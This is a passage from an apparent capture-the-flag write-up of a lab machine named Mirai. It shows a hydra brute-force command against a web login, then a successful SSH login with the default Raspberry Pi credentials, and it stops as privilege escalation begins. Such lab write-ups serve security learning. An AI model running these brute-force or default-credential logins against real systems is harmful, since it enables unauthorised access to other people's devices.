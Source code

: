 Retry brute force with hydra, but with the newly created wordlist :

```
hydra -l admin -P ./dictiFromWebsite 10.10.10.48 http-post-form "/admin/index.php?login:pw=^PASS^:Wrong password" -Vv
```

Didn't work ! So I thought about the name of the box "mirai". If the default username-and-password combo is not changed, Mirai is able to log into the device and infect it [https://www.cloudflare.com/learning/ddos/glossary/mirai-botnet/](https://www.cloudflare.com/learning/ddos/glossary/mirai-botnet/).

Searching Google for default credentials, I stumble upon this ([https://discourse.pi-hole.net/t/password-for-pre-configured-pi-hole/13629](https://discourse.pi-hole.net/t/password-for-pre-configured-pi-hole/13629)): 

```
As installed from a new Raspbian image, the default password for user pi is raspberry.
```

So the SSH credentials by default is :

- user : pi
- password : raspberry

## Exploit

------

Let's try this default credentials on the SSH :

```
ssh pi@10.10.10.48
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
```

And I'm in ! Now let's escalate to root, for that I first try to see if I can run commands as someone else :
